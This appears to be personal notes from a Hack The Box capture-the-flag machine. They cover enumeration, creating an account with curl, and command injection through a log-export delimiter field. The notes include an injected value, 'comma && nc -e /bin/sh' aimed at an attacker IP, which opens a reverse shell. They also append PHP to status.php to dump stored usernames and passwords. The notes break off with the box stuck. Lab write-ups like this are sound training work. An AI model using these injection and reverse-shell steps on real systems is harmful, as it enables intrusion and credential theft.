 ### Box Info
OS: Linux\
IP: 10.10.11.104\

## Part I 

### Skills learned:
Curl/Python
CMD injection

### Enumeration
nmap -p- -A -oN Exploreprts.txt ${IP}
+ 22 OpenSSH
+ 80 Apache httpd 2.4.29 


### Dirb ${IP}/ -X .php
+ /accounts.php
    + Ability to create UN && PW            
+ /login.php
    + 

### Step 1: User Account
+ Create account with curl request
  + curl -is -X POST -d "username=${UN}&password=${PW}&confirm=${PW}" ${IP}/accounts.php 
+ Login with new account:
  + Upload access, "MySQL server is online and connected", 3(2) registered admins, *sitebackup.zip*, User: m4lware
  + Management Menu -> Request Log Data: file delimeter

### Step 2: CMD Injection
+ inspect file delimeter
  + change comma to inlcude a nc shell
    + comma && nc -e /bin/sh ${AttackerIP} ${port#}
  + setup a listner shell : nc -lnp ${port#}

### Step 3: Shell
+ python -V
+ check https://github.com/crcirq32/Bash/blob/main/reverseshells.sh to upgrade shell
+ m4lwhere seems to house all permissions
  + Must access users from db to get more info on m4lwhere
    + append to status.php
    + printf("<?php\n$db = connectDB();\n$query = "SELECT username, password FROM accounts";\n$users = $db->query($query);\nif ($users->num_rows > 0) {\nwhile($row = mysqli_fetch_assoc($users)) {\nvar_dump($row);\n}\n}\n$db->close();") >> status.php

TODO: 10.10.11.104 Hung up - Stuck in limbo. Contact HTB
